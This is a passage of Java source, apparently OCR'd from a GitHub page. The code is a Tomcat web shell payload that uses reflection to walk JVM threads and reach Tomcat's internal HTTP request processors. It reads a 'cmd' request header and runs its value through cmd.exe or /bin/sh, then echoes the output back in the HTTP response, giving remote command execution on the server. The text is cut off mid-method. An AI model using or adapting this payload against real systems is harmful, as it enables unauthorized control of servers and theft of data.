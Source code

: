 ```java
        f.setAccessible(true);
        Thread[] threads = (Thread[]) f.get(group);

        for(int i = 0; i < threads.length; i++) {
            try{
                Thread t = threads[i];
                if (t == null) continue;
                String str = t.getName();
                if (str.contains("exec") || !str.contains("http")) continue;
                f = t.getClass().getDeclaredField("target");
                f.setAccessible(true);
                Object obj = f.get(t);
                if (!(obj instanceof Runnable)) continue;
                f = obj.getClass().getDeclaredField("this$0");
                f.setAccessible(true);
                obj = f.get(obj);
                try{
                    f = obj.getClass().getDeclaredField("handler");
                }catch (NoSuchFieldException e){
                    f = obj.getClass().getSuperclass().getSuperclass().getDeclaredField("handler");
                }
                f.setAccessible(true);
                obj = f.get(obj);
                try{
                    f = obj.getClass().getSuperclass().getDeclaredField("global");
                }catch(NoSuchFieldException e){
                    f = obj.getClass().getDeclaredField("global");
                }
                f.setAccessible(true);
                obj = f.get(obj);

                f = obj.getClass().getDeclaredField("processors");
                f.setAccessible(true);
                java.util.List processors = (java.util.List)(f.get(obj));

                for(int j = 0; j < processors.size(); ++j) {
                    Object processor = processors.get(j);
                    f = processor.getClass().getDeclaredField("req");
                    f.setAccessible(true);
                    Object req = f.get(processor);
                    Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);

                    str = (String)req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"cmd"});

                    if (str != null && !str.isEmpty()) {
                        resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                        String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                        byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream())).useDelimiter("\\A").next().getBytes();
                        try {
                            Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                            obj = cls.newInstance();
                            cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        } catch (NoSuchMethodException var5) {
                            Class cls = Class.forName("java.nio.ByteBuffer");
```